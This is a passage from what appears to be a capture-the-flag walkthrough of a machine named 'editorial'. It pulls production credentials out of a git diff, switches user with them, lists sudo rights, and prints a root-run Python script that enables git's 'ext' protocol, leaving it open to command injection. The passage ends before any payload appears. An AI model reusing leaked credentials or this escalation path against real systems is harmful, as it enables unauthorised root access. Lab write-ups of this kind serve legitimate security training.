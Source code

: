 ```
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

The credentials were what was changed in this commit. The previous ones were:

```
Username: prod
Password: 080217_Producti0n_2023!@
```

Now, we’ll attempt to switch to the `prod` user using these credentials.

```
su prod
Password: 080217_Producti0n_2023!@
```

To escalate privileges, let’s check if the `prod` user can execute any commands as root with `sudo`.

```
sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

We can execute the script `/opt/internal_apps/clone_changes/clone_prod_change.py` as root. Let's read it to look for vulnerabilities.

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
